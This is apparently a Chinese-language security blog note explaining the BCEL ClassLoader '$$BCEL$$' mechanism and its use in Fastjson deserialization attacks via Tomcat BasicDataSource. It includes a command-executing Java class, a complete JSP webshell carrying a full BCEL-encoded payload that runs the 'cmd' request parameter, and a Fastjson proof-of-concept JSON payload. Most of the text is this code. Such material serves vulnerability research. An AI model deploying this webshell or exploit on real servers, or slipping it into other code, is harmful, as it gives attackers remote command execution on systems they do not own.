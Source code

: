 ```yaml
---
title: BCEL类加载机制（以Fastjson BasicDataSource为例）
date: 2022-7-30
tags:
 - Vulnerabilities
 - 笔记
categories:
 - Vulnerabilities
---
```


### BCEL攻击原理

当BCEL的com.sun.org.apache.bcel.internal.util.ClassLoader#loadClass加载一个类名中带有$$BCEL$$的类时会截取出$$BCEL$$后面的字符串，然后使用com.sun.org.apache.bcel.internal.classfile.Utility#decode将字符串解析成类字节码（带有攻击代码的恶意类），最后会调用defineClass注册解码后的类，一旦该类被加载就会触发类中的恶意代码。

### 利用

```java
import com.sun.org.apache.bcel.internal.classfile.Utility;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;

public class BcelEvil {

    String res;

    public BcelEvil(String cmd) throws IOException {
        StringBuilder stringBuilder = new StringBuilder();
        BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(cmd).getInputStream()));
        String line;
        while((line = bufferedReader.readLine()) != null) {
            stringBuilder.append(line).append("\n");
        }
        res = stringBuilder.toString();
    }

    @Override
    public String toString() {
        return res;
    }

    public static void main(String[] args) throws IOException {
        InputStream inputStream = BcelEvil.class.getClassLoader().getResourceAsStream("BcelEvil.class");
        byte[] bytes = new byte[inputStream.available()];
        inputStream.read(bytes);
        String code = Utility.encode(bytes, true);
        System.out.println("$$BCEL$$" + code);
    }
}

```

也就是说我们在利用的时候，可以构造$$BCEL$$后面跟上一串恶意类加密后的字符串，那么按照BCEL的机制，它会先把它解密成上面恶意类的样子，然后调用defineClass注册该恶意类，也就触发了恶意代码

```jsp
<%@ page import="com.sun.org.apache.bcel.internal.util.ClassLoader" %>
<html>
<body>
<h2>BCEL字节码的JSP Webshell</h2>
<%
    String bcelCode = "$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$85U$5bW$hU$U$fe$86$ML$Y$86B$93R$$Z$bcQ$hn$j$ad$b7Z$w$da$mT4$5c$84$W$a4x$9bL$Oa$e8d$sN$s$I$de$aa$fe$86$fe$87$beZ$97$86$$q$f9$e8$83$8f$fe$M$7f$83$cb$fa$9dI$I$89$84$e5$ca$ca$3es$f6$de$b3$f7$b7$bf$bd$cf$99$3f$fe$f9$e57$A$_$e3$7b$jC$98$d6$f0$a6$8e6$b9$be$a5$e1$86$8e4f$a4x$5b$c7$y$e6t$b4$e3$a6$O$V$efH1$_$j$df$8d$e3$3d$b9f$3a$d1$8b$F$N$8b$3a$96$b0$i$c7$fb$3aV$b0$aa$e3$WnK$b1$a6c$j$ltb$Dw$e2$d8$d4$f1$n$3e$d2$f0$b1$82X$mJ$K$S$99$jk$d72$5d$cb$cb$9b$aba$e0x$f9$v$F$j$d7$j$cf$J$a7$V$f4$a5N$9aG$d7$U$a83$7eN$u$e8$c98$9eX$y$X$b2$o$b8ee$5d$n$c3$f9$b6$e5$aeY$81$p$f75$a5$gn$3bL$a5g$d2$b6pgw$j$97$vbv$n$a7$a0$bb$U$c5L$97$j7$t$C$F$83$t$d2$d5L$7c$e3L$b6$bc$b5$r$C$91$5b$RV$e4$3cPuv$7c3$ddd$a1$af$ea$S$Y$c3$af$86$96$7dw$c1$wF$40$c8$90$86O$c82$J$s$9a$d9$3d$5b$UC$c7$f7J$g$3eU$Q$P$fdjF$F$e7R$a3$adXQ$L$96$e3$v8$9f$da$3c$85$U$x$c8$b3$ccd$L$b3$82$$$c7$x$96Cn$85U$m$afu$e8$f3$c7jz$b5g$f7C$d9$95$b6$cd4$e3$d9$R$c9$fa$aa_$Ol1$e7H$w$bb$8f$u$bc$y$D$Y$b8$AKA$ff$v$a4$Rkk$86Ht$8b$fcU$9b$86$ac$B$h9$D$C$5b$g$f2$G$b6$e1$c8D$3bR$dc5$e0$e2$8a$81$C$c8$84$a2$hxQ$ee$9e$c0$93$q$f0$I$9a$G$df$40$R$9f$b1eu$b4$b6k$95$c8s$60$a0$84PC$d9$c0$$$3e7$b0$87$7d$N_$Y$f8$S_i$f8$da$c07$b8$c7$40$p$p$e9$99$d9$cc$c8$88$86o$N$7c$87a$F$bd$c7$V$$ew$84$j6$a9$8e$fa$96$ac$X$b5To$$$t$z$r$9bs$f6$d8$7d$a5$ec$85NA2$9b$Xa$7d$d3$d7$d4$f4$9aZv$5d$ec$J$5b$c1$a5V$t$a1A$b5$i$f8$b6$u$95$a6$9a2$d5$94$q$82$99$e6$h$H$a0$ff$u$db$89$R$YH$b54$c8$g$92$c7$a6$da$a4Km$9c$f6$5c$s$9a$f7$O$abX$U$k$cf$d5$e4$ff$a0$fd$ef$d9$ea96$cd$c8NU$RG$8f$Z$bf61M$fc4$98$f8z_K$D$BK$82E$v$9a$df$h$a5$a3$daGO$Hw$82$8dd$L$b5$82N$w$j$b7z$b9$b0$bd$f3$ec$92$q$81$e7$t$b5$99$96$db$x$b6_0Ke$cf$f4$83$bci$V$z$7b$5b$98Y$ce$a2$e9x$a1$I$3c$cb5$a3$81$dc$e2$992o$87$8e$eb$84$fbdOx$d5$T$d7$cf$uwZ$5e$B$8dC$b7_$K$F$b1$c4$fcr$d8x$a0$97$e9$da$C$7f$83Z$81V$94$3b$d7$c33$bc$b9$87$f8$JP$f8$e7$n$a2$8c$f1$f9$C$86y$ad$3f$c5$dd$9f$e8$e0$bd$P$dc$i$3b$80r$88$b6$8d$D$c4$W$O$a1n$i$a2$7d$e3$R$3a$c6$x$d0$w$88$l$a0$f3$A$fa$e2d$F$5d$h$d7$d4$df$91$98$YT$x0$S$dd$U$eb$P$k$ff56Q$c1$99$9f$d1$f30J$f04$e504$ca$$$7eJ$M$fe$baq$R$3d0$Jf$g$J$cc$nI$60$f2$bb$U$a5$c6$b3x$O$88$9eF$IQ$a1$ff$U$fd$9f$t$c4$8b$b4$5dB$8a1$t$I$7f$94V$VcQ$vm$8fiT5$8ck$98$d00$a9$e12$f07$G$b8c$g$d0M$c1$L$fc$f3$f6$a0$94$95$9a$5c$r$L$edc$3f$a1$e7$H$3e$b4E8$3b$oe$7f$84$c7$a8$3a$d4$f0t$e2$r$o$ac$d2t$9f$IT$aeW$T$bd$V$9cM$q$wHfH$cd$b9_$e3$L$e3$y$bdo$7dB$7d$84$f3$8b$3f$a2$bf$c6ab$80$cc$90$$$83$bcT0$f8$b0$9eo$88$Z$r$fe$$$d6$92$60$p$G$c8$d40s$bcF$ab$c40V$cd$83W$f0j$c4$df$q$zW$89$xA$3e$5e$c75F$Zf$8c$v$be$jk$w$f4z$94$e1$8d$7f$BP$cbmH$f2$H$A$A";
    response.getOutputStream().write(String.valueOf(new ClassLoader().loadClass(bcelCode).getConstructor(String.class).newInstance(request.getParameter("cmd")).toString()).getBytes());
%>
</body>
</html>
```

### 举个例子

以fastjson为例，有一条poc如下：

```json
{
    {
        "@type": "com.alibaba.fastjson.JSONObject",
        "x":{
                "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$$l$8b$I$A$..."
        }
    }: "x"
}
```

利用链为：

```
BasicDataSource.getConnection() -> createDataSource() -> createConnectionFactory()
```

```java
protected ConnectionFactory createConnectionFactory() throws SQLException {

    ...

    if (driverClassLoader == null) {
            driverFromCCL = Class.forName(driverClassName);
    } else {
            driverFromCCL = Class.forName(driverClassName, true, driverClassLoader);
    }
    ...
```

经过一连串的调用链，在 BasicDataSource.createConnectionFactory() 中会调用 Class.forName()，还可以自定义ClassLoader。Class.forName() 在动态加载类时，默认会进行初始化，所以这里在动态加载的过程中会执行 static 代码段。

接下来看poc中另外两个字段，com.sun.org.apache.bcel.internal.util.ClassLoader 会直接从className中提取class的bytecode数据

```java
protected Class loadClass(String class_name, boolean resolve) throws ClassNotFoundException
{
    ...

    if(class_name.indexOf("$$BCEL$$") >= 0)
          clazz = createClass(class_name);
    else { 
      ...
    }

    if(clazz != null) {
      byte[] bytes  = clazz.getBytes();
      cl = defineClass(class_name, bytes, 0, bytes.length);
    } else
      cl = Class.forName(class_name);

        ....

    return cl;
}

/*
* The name contains the special token $$BCEL$$. Everything before that
* token is consddered to be a package name. You can encode you own
* arguments into the subsequent string. 
* The default implementation interprets the string as a encoded compressed
* Java class, unpacks and decodes it with the Utility.decode() method, and
* parses the resulting byte array and returns the resulting JavaClass object.
*
* @param class_name compressed byte code with "$$BCEL$$" in it
*/
protected JavaClass createClass(String class_name) {
    ...
}
```

如果 classname 中包含 `$$BCEL$$` ，这个 ClassLoader 则会将`$$BCEL$$`后面的字符串按照BCEL编码进行解码，作为Class的字节码，并调用 defineClass() 获取 Class 对象。

于是我们通过FastJson反序列化，反序列化生成一个 org.apache.tomcat.dbcp.dbcp2.BasicDataSource 对象，并将它的成员变量 classloader 赋值为 com.sun.org.apache.bcel.internal.util.ClassLoader 对象，将 classname 赋值为经过BCEL编码的字节码（假设对应的类为Evil.class），我们将需要执行的代码写在 Evil.class 的 static 代码块中即可。